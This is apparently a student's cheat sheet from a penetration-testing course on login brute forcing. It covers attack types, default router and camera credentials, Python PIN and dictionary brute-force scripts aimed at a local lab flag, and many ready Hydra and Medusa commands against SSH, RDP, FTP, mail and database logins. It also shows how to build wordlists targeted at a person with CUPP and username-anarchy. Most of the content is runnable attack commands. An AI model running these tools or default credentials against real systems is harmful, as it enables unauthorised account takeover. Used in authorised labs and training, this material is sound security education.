

# Login Brute Forcing

## Types of Brute Forcing

| Attack Type | Description | Best Used When |
|-------------|-------------|----------------|
| Simple Brute Force | Tries every possible character combination in a set (e.g., lowercase, uppercase, numbers, symbols). | When there is no prior information about the password. |
| Dictionary Attack | Uses a pre-compiled list of common passwords. | When the password is likely weak or follows common patterns. |
| Hybrid Attack | Combines brute force and dictionary attacks, adding numbers or symbols to dictionary words. | When the target uses slightly modified versions of common passwords. |
| Credential Stuffing | Uses leaked credentials from other breaches to access different services where users may have reused passwords. | When you have a set of leaked credentials, and the target may reuse passwords. |
| Password Spraying | Attempts common passwords across many accounts to avoid detection. | When account lockout policies are in place. |
| Rainbow Table Attack | Uses precomputed tables of password hashes to reverse them into plaintext passwords. | When a large number of password hashes need cracking, and storage for tables is available. |
| Reverse Brute Force | Targets a known password against multiple usernames. | When there’s a suspicion of password reuse across multiple accounts. |
| Distributed Brute Force | Distributes brute force attempts across multiple machines to speed up the process. | When the password is highly complex, and a single machine isn't powerful enough. |

## Default Credentials

| Device/Manufacturer     | Default Username | Default Password | Device Type              |
|-------------------------|------------------|------------------|--------------------------|
| Linksys Router          | admin            | admin            | Wireless Router          |
| D-Link Router           | admin            | admin            | Wireless Router          |
| Netgear Router          | admin            | password         | Wireless Router          |
| TP-Link Router          | admin            | admin            | Wireless Router          |
| Cisco Router            | cisco            | cisco            | Network Router           |
| Asus Router             | admin            | admin            | Wireless Router          |
| Belkin Router           | admin            | password         | Wireless Router          |
| Zyxel Router            | admin            | 1234             | Wireless Router          |
| Samsung SmartCam        | admin            | 4321             | IP Camera                |
| Hikvision DVR           | admin            | 12345            | Digital Video Recorder   |
| Axis IP Camera          | root             | pass             | IP Camera                |
| Ubiquiti UniFi AP       | ubnt             | ubnt             | Wireless Access Point    |
| Canon Printer           | admin            | admin            | Network Printer          |
| Honeywell Thermostat    | admin            | 1234             | Smart Thermostat         |
| Panasonic DVR           | admin            | 12345            | Digital Video Recorder   |

## Basic Python Brute Force Script

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

## Common Wordlists

## Wordlists

| Wordlist | Description | Typical Use |
|----------|-------------|-------------|
| `SecLists\Passwords\Leaked-Databases\rockyou.txt` | Millions of leaked passwords from RockYou breach | Password brute force attacks |
| `SecLists\Passwords\Common-Credentials\darkweb2017_top-10000.txt` | 10000 leaked passwords from 2017 | Password brute force attacks |
| `SecLists\Usernames\top-usernames-shortlist.txt` | Concise list of common usernames | Quick username brute force |
| `SecLists\Usernames\xato-net-10-million-usernames.txt` | Extensive 10 million usernames list | Thorough username brute forcing |
| `SecLists\Passwords\Common-Credentials\2023-200_most_used_passwords.txt` | 200 most common passwords as of 2023 | Target reused passwords |
| `SecLists\Passwords\Default-Credentials\default-passwords.txt` | Default usernames/passwords for devices/software | Try default credentials |

## Basic Python Dictionary Solver

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

## Hybrid Attacks



## Brute-Forcing Tools

## Hydra Parameters

| Parameter             | Explanation                                      | Usage Example                          |
|-----------------------|--------------------------------------------------|----------------------------------------|
| -l LOGIN or -L FILE   | Login options: Single username or username list  | `hydra -l admin ...` or `hydra -L usernames.txt ...` |
| -p PASS or -P FILE    | Password options: Single password or password list | `hydra -p password123 ...` or `hydra -P passwords.txt ...` |
| -t TASKS              | Number of parallel tasks (threads)               | `hydra -t 4 ...`                       |
| -f                    | Stop after first successful login                | `hydra -f ...`                         |
| -s PORT               | Specify non-default port                         | `hydra -s 2222 ...`                    |
| -v or -V              | Verbose output for progress                      | `hydra -v ...` or `hydra -V ...`       |
| service://server      | Target service and hostname                      | `hydra ssh://192.168.1.100 ...`        |
| /OPT                  | Service-specific options                         | `hydra http-get://example.com/login.php -m "POST:user=^USER^&pass=^PASS^"` |

#### Hydra Service

## Hydra Services

| Service | Description | Example Command |
|---------|-------------|-----------------|
| ftp     | Brute-forces FTP login credentials for file transfers | `hydra -l admin -P passwords.txt ftp://192.168.1.100` |
| ssh     | Brute-forces SSH credentials for remote login | `hydra -l root -P passwords.txt ssh://192.168.1.100` |
| http-post | Brute-forces HTTP login forms via POST `F=` failure condition `S=` Success condition (302 or welcome message) | `hydra -l admin -P passwords.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"` |
| http-get | Brute-forces HTTP login forms via GET | `hydra -L usernames.txt -P passwords.txt www.example.com http-get` |
| smtp    | Brute-forces SMTP login for email sending | `hydra -l admin -P passwords.txt smtp://mail.server.com` |
| pop3    | Brute-forces POP3 credentials for email retrieval | `hydra -l user@example.com -P passwords.txt pop3://mail.server.com` |
| imap    | Brute-forces IMAP credentials for email access | `hydra -l user@example.com -P passwords.txt imap://mail.server.com` |
| mysql   | Brute-forces MySQL database login credentials | `hydra -l root -P passwords.txt mysql://192.168.1.100` |
| mssql   | Brute-forces Microsoft SQL Server credentials | `hydra -l sa -P passwords.txt mssql://192.168.1.100` |
| vnc     | Brute-forces VNC for remote desktop access | `hydra -P passwords.txt vnc://192.168.1.100` |
| rdp     | Brute-forces RDP for remote login | `hydra -l admin -P passwords.txt rdp://192.168.1.100` |

#### Examples

```bash
hydra -l root -p toor -M targets.txt ssh # Use the username "root"/Use the password "toor"/Target all IP addresses listed in the targets.txt file/Employ the ssh module for the attack
hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp # Target the FTP service on ftp.example.com via port 2121
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp # Generate and test passwords ranging from 6 to 8 characters, using the specified character set
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81 # Target service is an HTTP server and the attack should be performed using HTTP GET requests to the root path ('/')
```

### Medusa

#### Medusa Parameters

| Parameter              | Explanation                                      | Usage Example                          |
|------------------------|--------------------------------------------------|----------------------------------------|
| -h HOST or -H FILE     | Target: Single hostname/IP or list file          | `medusa -h 192.168.1.10 ... or medusa -H targets.txt ...` |
| -u USERNAME or -U FILE | Username: Single or list file                    | `medusa -u admin ... or medusa -U usernames.txt ...` |
| -p PASSWORD or -P FILE | Password: Single or list file                    | `medusa -p password123 ... or medusa -P passwords.txt ...` |
| -M MODULE              | Module: Specific service (e.g., ssh, ftp, http)  | `medusa -M ssh ...`                    |
| -m "MODULE_OPTION"     | Module options: Additional parameters in quotes  | `medusa -M http -m "POST /login.php HTTP/1.1\r\nContent-Length: 30\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\nusername=^USER^&password=^PASS^" ...` |
| -t TASKS               | Tasks: Number of parallel login attempts         | `medusa -t 4 ...`                      |
| -f or -F               | Fast mode: Stop after first success (-f current host, -F any host) | `medusa -f ... or medusa -F ...`       |
| -n PORT                | Port: Non-default port                           | `medusa -n 2222 ...`                   |
| -v LEVEL               | Verbose: Detailed progress (LEVEL up to 6)       | `medusa -v 4 ...`                      |

#### Medusa Module

## Medusa Modules

| Module          | Service/Protocol         | Description                                      | Usage Example                          |
|-----------------|--------------------------|--------------------------------------------------|----------------------------------------|
| FTP             | File Transfer Protocol   | Brute-forcing FTP login credentials for file transfers over a network | `medusa -M ftp -h 192.168.1.100 -u admin -P passwords.txt` |
| HTTP POST       | Hypertext Transfer Protocol | Brute-forcing login forms on web applications over HTTP (POST) | `medusa -M http -h www.example.com -U users.txt -P passwords.txt -m DIR:/login.php -m FORM:"username=^USER^&password=^PASS^:F=Invalid"` |
| HTTP GET        | Hypertext Transfer Protocol | Brute-forcing login forms on web applications over HTTP (GET) | `medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET ` |
| IMAP            | Internet Message Access Protocol | Brute-forcing IMAP logins for email access | `medusa -M imap -h mail.example.com -U users.txt -P passwords.txt` |
| MySQL           | MySQL Database           | Brute-forcing MySQL database credentials for web apps and databases | `medusa -M mysql -h 192.168.1.100 -u root -P passwords.txt` |
| POP3            | Post Office Protocol 3   | Brute-forcing POP3 logins for email retrieval from mail servers | `medusa -M pop3 -h mail.example.com -U users.txt -P passwords.txt` |
| RDP             | Remote Desktop Protocol  | Brute-forcing RDP logins for remote desktop access to Windows systems | `medusa -M rdp -h 192.168.1.100 -u admin -P passwords.txt` |
| SSHv2           | Secure Shell (SSH)       | Brute-forcing SSH logins for secure remote access | `medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt` |
| Subversion (SVN)| Version Control System   | Brute-forcing Subversion repositories for version control | `medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt` |
| Telnet          | Telnet Protocol          | Brute-forcing Telnet services for remote command execution on older systems | `medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt` |
| VNC             | Virtual Network Computing| Brute-forcing VNC login credentials for remote desktop access | `medusa -M vnc -h 192.168.1.100 -P passwords.txt` |
| Web Form        | Brute-forcing Web Login Forms | Brute-forcing login forms on websites using HTTP POST requests | `medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"` |

**Tip:** `medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name` checks for empty passwords (-e n) and passwords matching the username (-e s).

## Custom Wordlists

### Username Anarchy

Generates potential usernames based on a target's name.

| Command | Description |
|---------|-------------|
| `username-anarchy Jane Smith > jane_smith_usernames.txt` | Generate possible usernames for "Jane Smith" |
| `username-anarchy -i names.txt` | Use a file (names.txt) with names for input. Can handle space, CSV, or TAB delimited names. |
| `username-anarchy -a --country us` | Automatically generate usernames using common names from the US dataset. |
| `username-anarchy -l` | List available username format plugins. |
| `username-anarchy -f format1,format2` | Use specific format plugins for username generation (comma-separated). |
| `username-anarchy -@ example.com` | Append @example.com as a suffix to each username. |
| `username-anarchy --case-insensitive` | Generate usernames in case-insensitive (lowercase) format. |

### CUPP (Common User Passwords Profiler)

Creates personalized password wordlists based on gathered intelligence.

| Command | Description |
|---------|-------------|
| `cupp -i` | Generate wordlist based on personal information (interactive mode). |
| `cupp -w profiles.txt` | Generate a wordlist from a predefined profile file. |
| `cupp -l` | Download popular password lists like rockyou.txt. |

## Password Policy Filtering

Password policies often dictate specific requirements for password strength, such as minimum length, inclusion of certain character types, or exclusion of common patterns. grep combined with regular expressions can filter wordlists to identify passwords that adhere to a given policy.

### Policy Requirements and Grep Regex Patterns

| Policy Requirement | Grep Regex Pattern | Explanation |
|--------------------|--------------------|-------------|
| Minimum Length (e.g., 8 characters) | `grep -E '^.{8,}$' wordlist.txt` | `^` matches the start of the line, `.` matches any character, `{8,}` matches 8 or more occurrences, `$` matches the end of the line. |
| At Least One Uppercase Letter | `grep -E '[A-Z]' wordlist.txt` | `[A-Z]` matches any uppercase letter. |
| At Least One Lowercase Letter | `grep -E '[a-z]' wordlist.txt` | `[a-z]` matches any lowercase letter. |
| At Least One Digit | `grep -E '[0-9]' wordlist.txt` | `[0-9]` matches any digit. |
| At Least One Special Character | `grep -E '[!@#$%^&*()_+-=[]{};':"\,.<>/?]' wordlist.txt` | `[!@#$%^&*()_+-=[]{};':"\,.<>/?]` matches any special character (symbol). |
| No Consecutive Repeated Characters | `grep -E '(.)\1' wordlist.txt` | `(.)` captures any character, `\1` matches the previously captured character. This pattern will match any line with consecutive repeated characters. Use `grep -v` to invert the match. |
| Exclude Common Patterns (e.g., "password") | `grep -v -i 'password' wordlist.txt` | `-v` inverts the match, `-i` makes the search case-insensitive. This pattern will exclude any line containing "password" (or "Password", "PASSWORD", etc.). |
| Exclude Dictionary Words | `grep -v -f dictionary.txt wordlist.txt` | `-f` reads patterns from a file. `dictionary.txt` should contain a list of common dictionary words, one per line. |
| Combination of Requirements | `grep -E '^.{8,}$' wordlist.txt \| grep -E '[A-Z]'` | Filters a wordlist to meet multiple password policy requirements. Ensures each word has a minimum length of 8 characters and contains at least one uppercase letter. |